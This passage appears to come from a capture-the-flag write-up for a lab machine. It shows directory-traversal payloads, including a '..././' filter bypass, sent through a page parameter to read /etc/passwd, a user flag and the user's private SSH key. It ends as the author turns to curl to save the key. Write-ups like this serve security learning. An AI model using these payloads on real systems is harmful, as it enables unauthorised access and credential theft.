 This looked like a candidate for directory traversal. Already knowing (from the errors showing ``/var/www/payroll/admin_class.php``) that this was probably being read from a directory like ``/var/www/marketing/index.php``, I tried using directory traversal tricks going (at least) three directories up:

- http://preprod-marketing.trick.htb/index.php?page=../../../../../../etc/passwd
- http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././etc/passwd 

And that did it! The second attempt was enough to leak ``/etc/passwd``:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash 
```

Well hello there, **michael** 👋 Are you the target?

As it turns out, *michael is definitely the target*. Or at least, they have the flag:

```http
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././home/michael/user.txt
```

Wonderful! 

If I can access michael's home directory (and ssh is open) there's a good chance I can also access michael's ssh key. Taking a guess at the typical location of the ssh key worked perfectly:

```http
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa
```

Hooray 🎉 That worked! Only the formatting of the ssh key is not idea. I'll use curl to dump it into a file directly, instead:
